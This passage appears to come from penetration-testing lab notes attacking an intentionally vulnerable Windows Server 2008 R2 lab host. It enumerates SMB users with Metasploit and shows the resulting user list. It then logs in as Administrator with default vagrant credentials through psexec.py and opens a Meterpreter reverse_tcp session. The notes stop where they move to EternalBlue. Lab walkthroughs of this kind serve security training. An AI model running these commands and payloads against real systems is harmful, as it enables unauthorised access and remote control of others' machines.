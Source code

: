 ![enum4linux](.gitbook/assets/image-20230424120729493.png)

- Enumerate users with MSF

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.2.26.45
set SMBUser vagrant
set SMBPass vagrant
run
```

```bash
[+] 10.2.26.45:445 - VAGRANT-2008R2 [ Administrator, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, chewbacca, c_three_pio, darth_vader, greedo, Guest, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant ] ( LockoutTries=0 PasswordMin=0 )
```

- In a new terminal, use `psexec.py` to try SMB authentication

```bash
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
```

```bash
python3 psexec.py Administrator@10.2.26.45
```

![psexec - elevated cmd](.gitbook/assets/image-20230424121556797.png)

- Obtain a `Meterpreter` session with MSF

```bash
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS 10.2.26.45
set SMBUser Administrator
set SMBPass vagrant
set payload windows/x64/meterpreter/reverse_tcp
run
```

![Elevated meterpreter session](.gitbook/assets/image-20230424121859926.png)

- *If no account credentials can be found*, use the **EternalBlue vulnerability** exploit since the system target is a Win Server 2008 R2

```bash
msfconsole -q
```

